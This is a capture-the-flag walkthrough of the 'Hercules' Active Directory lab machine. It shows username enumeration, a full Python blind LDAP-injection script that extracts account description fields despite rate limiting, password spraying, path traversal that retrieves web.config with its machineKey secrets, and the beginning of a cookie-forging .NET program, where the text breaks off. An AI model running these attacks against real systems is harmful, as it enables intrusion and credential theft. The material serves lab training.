Hercules (Insane)
Synopsis
Reconnaissance
Yes we run nmap as a start, but I will ditch the output since you get the idea.
nmap -sCV -v 10.129.210.87 -oN hercules.nmap -PnNTLM authentication is disabled in the domain, so all authentications must be performed using Kerberos only.
The output contains the DNS name for the domain controller, dc.hercules.htb and a Certificate Authority CA-HERCULES. We also see a website on port 443. We add the domain to our /etc/hosts file and continue to explore the site.
echo "10.10.11.91 dc.hercules.htb hercules.htb" | sudo tee -a /etc/hosts
After a quick dirsearch scan we can discover a login page.
$ dirsearch -u https://hercules.htb --exclude-sizes=0B
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Target: https://hercules.htb/
[18:57:34] Starting:
[18:57:58] 200 - 3KB - /login
The Hercules SSO login page apparently has rate-limiting in place. When trying a default login of admin:admin we get the message Invalid login attempt. After running an sqlmap scan on the login form, we see that it does identify a potential injection point.
$ sqlmap -r login.req --csrf-token="__RequestVerificationToken"
<SNIP>
[19:13:47] [INFO] POST parameter 'Username' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectableBut since we are sending too many request, the website returns status code 429.

User
Username Enumeration
After spending some time trying to bypass the rate-limiting feature, I figured the result from sqlmap is probably a false positive, but there might still be an injection in the Username field. In the meantime I was also running kerbrute to discover some potential usernames.
$ kerbrute userenum -d hercules.htb --dc 10.10.11.91 $SECLISTS/Usernames/xato-net-10-million-usernames.txt
2025/10/20 21:04:58 > [+] VALID USERNAME: admin@hercules.htb
2025/10/20 21:05:01 > [+] VALID USERNAME: administrator@hercules.htb
2025/10/20 21:05:53 > [+] VALID USERNAME: auditor@hercules.htb
2025/10/20 21:25:16 > [+] VALID USERNAME: will.s@hercules.htbWe got a couple of users and also found the structure of the usernames. We can now generate a more comprehensive list as follows.
$ while read -r name; do for l in {a..z}; do echo "$name.$l"; done; done < $SECLISTS/Usernames/Names/names.txt > possible_users.list
$ kerbrute userenum -d hercules.htb --dc 10.10.11.91 possible_users.list
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 10/21/25 - Ronnie Flathers @ropnop
2025/10/21 13:21:13 > Using KDC(s):
2025/10/21 13:21:13 > 10.129.82.25:88
2025/10/21 13:21:17 > [+] VALID USERNAME: adriana.i@hercules.htb
2025/10/21 13:21:34 > [+] VALID USERNAME: angelo.o@hercules.htb
2025/10/21 13:21:45 > [+] VALID USERNAME: ashley.b@hercules.htb
2025/10/21 13:22:06 > [+] VALID USERNAME: bob.w@hercules.htb
2025/10/21 13:22:18 > [+] VALID USERNAME: camilla.b@hercules.htb
2025/10/21 13:22:38 > [+] VALID USERNAME: clarissa.c@hercules.htb
2025/10/21 13:23:22 > [+] VALID USERNAME: elijah.m@hercules.htb
2025/10/21 13:23:42 > [+] VALID USERNAME: fiona.c@hercules.htb
2025/10/21 13:24:07 > [+] VALID USERNAME: harris.d@hercules.htb
2025/10/21 13:24:08 > [+] VALID USERNAME: heather.s@hercules.htb
2025/10/21 13:24:26 > [+] VALID USERNAME: jacob.b@hercules.htb
2025/10/21 13:24:37 > [+] VALID USERNAME: jennifer.a@hercules.htb
2025/10/21 13:24:39 > [+] VALID USERNAME: jessica.e@hercules.htb
2025/10/21 13:24:42 > [+] VALID USERNAME: joel.c@hercules.htb
2025/10/21 13:24:43 > [+] VALID USERNAME: johanna.f@hercules.htb
2025/10/21 13:24:43 > [+] VALID USERNAME: johnathan.j@hercules.htb
2025/10/21 13:25:04 > [+] VALID USERNAME: ken.w@hercules.htb
2025/10/21 13:25:55 > [+] VALID USERNAME: mark.s@hercules.htb
2025/10/21 13:26:09 > [+] VALID USERNAME: mikayla.a@hercules.htb
2025/10/21 13:26:22 > [+] VALID USERNAME: natalie.a@hercules.htb
2025/10/21 13:26:22 > [+] VALID USERNAME: nate.h@hercules.htb
2025/10/21 13:26:42 > [+] VALID USERNAME: patrick.s@hercules.htb
2025/10/21 13:26:58 > [+] VALID USERNAME: ramona.l@hercules.htb
2025/10/21 13:27:00 > [+] VALID USERNAME: ray.n@hercules.htb
2025/10/21 13:27:03 > [+] VALID USERNAME: rene.s@hercules.htb
2025/10/21 13:27:26 > [+] VALID USERNAME: shae.j@hercules.htb
2025/10/21 13:27:42 > [+] VALID USERNAME: stephanie.w@hercules.htb
2025/10/21 13:27:42 > [+] VALID USERNAME: stephen.m@hercules.htb
2025/10/21 13:27:50 > [+] VALID USERNAME: tanya.r@hercules.htb
2025/10/21 13:28:00 > [+] VALID USERNAME: tish.c@hercules.htb
2025/10/21 13:28:15 > [+] VALID USERNAME: vincent.g@hercules.htb
2025/10/21 13:28:21 > [+] VALID USERNAME: will.s@hercules.htb
2025/10/21 13:28:32 > [+] VALID USERNAME: zeke.s@hercules.htb
2025/10/21 13:28:34 > Done! Tested 264602 usernames (33 valid) in 441.360 secondsWe now have a better list of users on the domain, and when trying to login as one of these users we notice a different response for a valid username:

LDAP Injection
When testing the login form further, I found it is vulnerable to LDAP injection. LDAP filters are constructed based on one or more LDAP attributes specified as key/value pairs. The login form seems to check via LDAP if the user exists. Below I list some examples of how the backend might process the login requests.
adriana*)(cn=*matches anything with a common nameadriana*)(description=*returns a valid response if the description field contains data
The payload needs to be properly encoded (double-URL) so that the backend (IIS/ASP.NET) processes the request.
Similar to SQL Injection, an LDAP injection vulnerability results when an application injects unfiltered user input directly into an LDAP statement. Because of the rate-limiting, we need to write a custom script that allows us to brute force valid usernames and LDAP fields much easier.
#!/usr/bin/env python3
import argparse
import itertools
import json
import math
import re
import string
import time
from pathlib import Path
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
try:
from colorama import Fore, Style, init as colorama_init
colorama_init(autoreset=True)
except Exception:
# fallback to ANSI if colorama isn't installed
class _C:
GREEN = '\033[92m'
RED = '\033[91m'
YELLOW = '\033[93m'
RESET = '\033[0m'
Fore = _C()
Style = type("S", (), {"RESET_ALL": _C.RESET})
# === CONFIG ===
BASE_URL = "https://hercules.htb"
LOGIN_PATH = "/login"
TARGET = BASE_URL + LOGIN_PATH
VERIFY_TLS = False
# valid user string
SUCCESS_STATUS = "Login attempt failed"
CSRF_RE = re.compile(
r'name=["\']__RequestVerificationToken["\']\s+type=["\']hidden["\']\s+value=["\']([^"\']+)["\']',
re.IGNORECASE,
)
# default character set for brute forcing (lowercase + digits + some symbols)
DEFAULT_CHARSET = string.ascii_lowercase + string.digits + "!@#$_*-.()"
# === HELPERS ===
def extract_csrf_token_from_html(html, token_name="__RequestVerificationToken"):
m = CSRF_RE.search(html)
if m:
return m.group(1)
return None
def get_csrf(session):
"""GET the login page and return the CSRF token (or None)."""
r = session.get(TARGET, verify=VERIFY_TLS, timeout=10)
return extract_csrf_token_from_html(r.text)
def url_encode_payload(payload: str) -> str:
"""Percent-encode payload bytes uppercase hex (safe for form values)."""
return "".join(f"%{b:02X}" for b in payload.encode("utf-8"))
# === LOGIN / INJECTION FUNCTIONS ===
def validate_user(username, password="test", csrf_field="__RequestVerificationToken"):
"""
Submit username/password to the login endpoint and return True if the
response contains SUCCESS_STATUS.
"""
session = requests.Session()
session.headers.update({"User-Agent": "ldap-helper/1.0"})
token = get_csrf(session)
if not token:
raise RuntimeError("CSRF token not found")
data = {
"Username": username,
"Password": password,
"RememberMe": "false",
csrf_field: token,
}
resp = session.post(TARGET, data=data, verify=VERIFY_TLS, timeout=10)
return SUCCESS_STATUS in resp.text
def ldap_inject(
username,
field="description",
prefix="",
csrf_field="__RequestVerificationToken",
escape_star=True,
):
"""
Build an LDAP-style payload and POST it as the Username field (percent-encoded).
Returns True if SUCCESS_STATUS is present in the response (same check used above).
"""
session = requests.Session()
session.headers.update({"User-Agent": "ldap-helper/1.0"})
token = get_csrf(session)
if not token:
raise RuntimeError("CSRF token not found")
# escape characters commonly problematic in LDAP filter context
escaped_prefix = prefix or ""
if escape_star and "*" in escaped_prefix:
escaped_prefix = escaped_prefix.replace("*", "\\2a")
if "(" in escaped_prefix:
escaped_prefix = escaped_prefix.replace("(", "\\28")
if ")" in escaped_prefix:
escaped_prefix = escaped_prefix.replace(")", "\\29")
if escaped_prefix:
payload = f"{username}*)({field}={escaped_prefix}*"
else:
payload = f"{username}*)({field}=*"
encoded_payload = url_encode_payload(payload)
data = {
"Username": encoded_payload,
"Password": "test",
"RememberMe": "false",
csrf_field: token,
}
resp = session.post(TARGET, data=data, verify=VERIFY_TLS, timeout=5)
if resp.status_code == 429:
print("{Fore.RED}[!] Hit rate limit, waiting 30 seconds...{Style.RESET_ALL}")
time.sleep(30)
return SUCCESS_STATUS in resp.text
def brute_field_for_user(
username,
field,
charset=DEFAULT_CHARSET,
max_length=25,
delay=0.1,
consecutive_fail_cutoff=2,
):
"""
Extract a string value for `field` for `username` using blind injection.
Returns discovered string (or empty string if none).
"""
if not ldap_inject(username):
# initial check: if LDAP injection with empty prefix returns false,
# then the user likely has no such field / no description
return ""
print(f"[*] Found possible value on {field} for object {username}")
value = ""
no_char_count = 0
for pos in range(max_length):
found_this_pos = False
for ch in charset:
test_prefix = value + ch
try:
ok = ldap_inject(username, field=field, prefix=test_prefix)
except Exception as e:
# if CSRF failed or network issue, surface it
raise
if ok:
value += ch
print(ch, end="", flush=True)
found_this_pos = True
no_char_count = 0
break
time.sleep(delay)
if not found_this_pos:
no_char_count += 1
if no_char_count >= consecutive_fail_cutoff:
break
print()
return value
# === UTILITIES ===
def load_usernames(path):
p = Path(path)
if not p.exists():
raise FileNotFoundError(f"Wordlist not found: {path}")
with p.open("r", encoding="utf-8", errors="ignore") as fh:
return [ln.strip() for ln in fh if ln.strip() and not ln.strip().startswith("#")]
def main():
parser = argparse.ArgumentParser(description="HTB username checker / field brute forcer")
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument("--user", "-u", help="Single username to operate on")
group.add_argument("--wordlist", "-w", help="File with usernames (one per line)")
parser.add_argument("--brute", metavar="FIELD", help="Brute-force the given field for username(s)")
parser.add_argument("--delay", type=float, default=0.05, help="Delay between character attempts (seconds)")
parser.add_argument("--max-length", type=int, default=50, help="Maximum length to extract for a field")
parser.add_argument("--insecure", action="store_true", help="Do not verify TLS certificates")
parser.add_argument("--out", "-o", help="Optional JSON output file to store results")
args = parser.parse_args()
global VERIFY_TLS
if args.insecure:
VERIFY_TLS = False
targets = []
if args.user:
targets = [args.user]
else:
targets = load_usernames(args.wordlist)
results = []
for user in targets:
entry = {"username": user}
try:
if args.brute:
discovered = brute_field_for_user(
user,
field=args.brute,
charset=DEFAULT_CHARSET,
max_length=args.max_length,
delay=args.delay,
)
entry["brute"] = discovered
if discovered:
print(f"{Fore.GREEN}[+] {user}::{args.brute} = {discovered}{Style.RESET_ALL}")
else:
print(f"{Fore.RED}[-] No field value found for object {user}{Style.RESET_ALL}")
else:
is_valid = validate_user(user)
entry["valid"] = bool(is_valid)
if is_valid:
print(f"{Fore.GREEN}[+] {user}{Style.RESET_ALL}")
else:
print(f"{Fore.RED}[-] {user}{Style.RESET_ALL}")
except Exception as e:
entry["error"] = str(e)
print(f"[!] Error for {user}: {e}")
results.append(entry)
if args.out:
with open(args.out, "w", encoding="utf-8") as fh:
json.dump(results, fh, indent=2)
print("[*] Done.")
if __name__ == "__main__":
main()The server returns different error messages based on the result of the filter. In case the response contains Login attempt failed, the filter returned a match. The most interesting fields to check are the description, because it might contains a password. With the above script we can enumerate the usernames and check if they have a description field.
$ python ldap_inject.py -w users.txt --brute description
[-] No field value found for object administrator
[-] No field value found for object admin
[-] No field value found for object adriana.i
[-] No field value found for object angelo.o
[-] No field value found for object ashley.b
[-] No field value found for object auditor
[-] No field value found for object bob.w
[-] No field value found for object camilla.b
[-] No field value found for object clarissa.c
[-] No field value found for object elijah.m
[-] No field value found for object fiona.c
[-] No field value found for object harris.d
[-] No field value found for object heather.s
[-] No field value found for object jacob.b
[-] No field value found for object jennifer.a
[-] No field value found for object jessica.e
[-] No field value found for object joel.c
[-] No field value found for object johanna.f
[*] Found possible value on description for object johnathan.j
change*th1s_p@ssw()rd!!
[+] johnathan.j::description = change*th1s_p@ssw()rd!!
[-] No field value found for object ken.w
[-] No field value found for object mark.s
[-] No field value found for object mikayla.a
[-] No field value found for object natalie.a
[-] No field value found for object nate.h
[-] No field value found for object patrick.s
[-] No field value found for object ramona.l
[-] No field value found for object ray.n
[-] No field value found for object rene.s
[-] No field value found for object shae.j
[-] No field value found for object stephanie.w
[-] No field value found for object stephen.m
[-] No field value found for object tanya.r
[-] No field value found for object tish.c
[-] No field value found for object vincent.g
[-] No field value found for object will.s
[-] No field value found for object zeke.s
[*] Done.After running the script, a potential password was found for the user johnathan.j in his description field. However, when we check which users are able to login to the website, we see that johnathan.j cannot login with this password. Naturally, we start password spraying on the other accounts we found.
$ nxc smb dc.hercules.htb -u users.txt -p 'change*th1s_p@ssw()rd!!' -d hercules.htb -k
SMB dc.hercules.htb 445 dc [*] x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:False)
SMB dc.hercules.htb 445 dc [-] hercules.htb\administrator:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\admin:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\adriana.i:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\angelo.o:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\ashley.b:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\auditor:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\bob.w:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\camilla.b:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\clarissa.c:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\elijah.m:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\fiona.c:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\harris.d:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\heather.s:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\jacob.b:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\jennifer.a:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\jessica.e:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\joel.c:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\johanna.f:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [-] hercules.htb\johnathan.j:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
SMB dc.hercules.htb 445 dc [+] hercules.htb\ken.w:change*th1s_p@ssw()rd!!We get a hit for ken.w and can login via the Hercules portal.

Looking through our messages, we see that the message Site Maintenance also contains another user called web_admin and a reference to natalie.a. This is a hint towards our next steps.

There is a Report Submission feature that looks interesting, but apparently we don't have the right to upload any files, so no phishing just yet.

Another features is to download files from the webserver.

The download function is vulnerable to LFI and after fuzzing for some files we get a hit for /Home/Download?fileName=../../web.config.
$ ffuf -request download.req -w $SECLISTS/Discovery/Web-Content/common.txt -fs 485 -fc 500 -ic -c
web.config [Status: 200, Size: 4896, Words: 643, Lines: 94, Duration: 20ms]A snippet of the contents reveal a machineKey which includes the decryptionKey and validationKey (AES + HMACSHA256). Having knowledge of these values allows us to forge/modify Forms Authentication cookies (and impersonate any user).
<?xml version="1.0" encoding="utf-8"?>
<configuration>
<system.web>
<compilation targetFramework="4.8" />
<authentication mode="Forms">
<forms protection="All" loginUrl="/Login" path="/" />
</authentication>
<httpRuntime enableVersionHeader="false" maxRequestLength="2048" executionTimeout="3600" />
<machineKey decryption="AES" decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581" validation="HMACSHA256" validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80" />
<customErrors mode="Off" />
</system.web>
<system.codedom>
<compilers>
<compiler language="c#;cs;csharp" extension=".cs" warningLevel="4" compilerOptions="/langversion:default /nowarn:1659;1699;1701;612;618" type="Microsoft.CodeDom.Providers.DotNetCompilerPlatform.CSharpCodeProvider, Microsoft.CodeDom.Providers.DotNetCompilerPlatform, Version=4.1.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" />
<compiler language="vb;vbs;visualbasic;vbscript" extension=".vb" warningLevel="4" compilerOptions="/langversion:default /nowarn:41008,40000,40008 /define:_MYTYPE=\"Web\" /optionInfer+" type="Microsoft.CodeDom.Providers.DotNetCompilerPlatform.VBCodeProvider, Microsoft.CodeDom.Providers.DotNetCompilerPlatform, Version=4.1.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" />
</compilers>
</system.codedom>
</configuration>
<!--ProjectGuid: 6648C4C4-2FF2-4FF1-9F3E-1A560E46AA52-->With the decryption keys, we can first try to decrypt our own FormsAuthenticationTicket and see how the ticket is structured. If we can modify the role of our user we might be able to forge a ticket with a privileged role that has access to more features like uploading files.
For this part I will have to switch to my Windows VM and compile a small .NET Console Application. You can also do this on Linux with the dotnet sdk.
using System.Globalization;
using AspNetCore.LegacyAuthCookieCompat;
class Program
{
static void PrintTicket(FormsAuthenticationTicket t)
{
Console.WriteLine("---- FormsAuthenticationTicket ----");
Console.WriteLine("Version : " + t.Version);
Console.WriteLine("Name : " + t.Name);
Console.WriteLine("IssueDate : " + t.IssueDate.ToString("o", CultureInfo.InvariantCulture));
Console.WriteLine("Expiration : " + t.Expiration.ToString("o", CultureInfo.InvariantCulture));
Console.WriteLine("IsPersistent: " + t.IsPersistent);
Console.WriteLine("UserData : " + t.UserData);
